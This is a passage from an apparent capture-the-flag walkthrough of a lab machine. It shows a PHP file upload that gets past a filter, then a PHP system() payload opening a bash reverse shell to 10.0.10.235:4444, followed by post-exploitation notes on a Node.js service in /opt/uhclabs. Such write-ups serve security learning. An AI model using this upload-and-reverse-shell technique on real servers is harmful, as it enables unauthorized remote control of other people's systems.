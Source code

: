 ```
Content-Type: application/x-php

<?php echo "uploads works =D";?>

-----------------------------1166246811985806323925494029--
```

![request test upload](../images/uhc-v20/request_test_uploads.png)
![request upload works](../images/uhc-v20/uploads_working.png)

Now we can get a reverse shell and logging into apache =D. We will use `<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'");?>`.

## Post exploitation
In `ps aux` we have a process with node server running in user `uhc` in port 3000 (nmap). So we need verify the code inside /opt/uhclabs.
```bash
uhc       2759  0.0  2.0 585024 39672 ?        Ssl  21:05   0:00 /usr/bin/node /opt/uhclabs/index.js
```

Inside `/opt/uhclabs` we have:
```bash
-rw-r--r--  1 uhc uhc  1781 Nov 29  2020 index.js
-rw-r--r--  1 uhc uhc   163 Nov 29  2020 messages.json
drwxr-xr-x 65 uhc uhc  4096 Nov 29  2020 node_modules
-rw-r--r--  1 uhc uhc 18748 Nov 29  2020 package-lock.json
-rw-r--r--  1 uhc uhc   340 Nov 29  2020 package.json
-rw-r--r--  1 uhc uhc   219 Nov 29  2020 store.js
```

The file `messages.json` it's like a database to storage messages
![file_messages_json](../images/uhc-v20/file_messages_json.png)
